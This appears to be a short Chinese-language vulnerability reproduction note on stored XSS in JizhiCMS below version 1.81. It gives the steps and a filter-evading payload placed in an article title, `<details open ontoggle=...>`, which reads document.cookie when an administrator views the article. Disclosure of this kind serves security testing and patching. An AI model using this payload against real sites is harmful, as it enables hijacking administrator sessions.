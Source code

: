 # 极致CMS-1.81以下版本-存储型XSS

### 漏洞复现

登录管理员添加模块

![](极致CMS-1.81以下版本-存储型XSS.assets/1627363286323327.jpg)

注册用户

![](极致CMS-1.81以下版本-存储型XSS.assets/1627363286586855.jpg)

点击发布文章

![](极致CMS-1.81以下版本-存储型XSS.assets/1627363286926416.jpg)

在文章标题处插入xss payload

```<details open ontoggle= confirm(document[`coo`+`kie`])>```

当管理员访问时XSS成功

![](极致CMS-1.81以下版本-存储型XSS.assets/1627363287471601.jpg)



### 参考

[极致CMS代码审计](https://xz.aliyun.com/t/7861)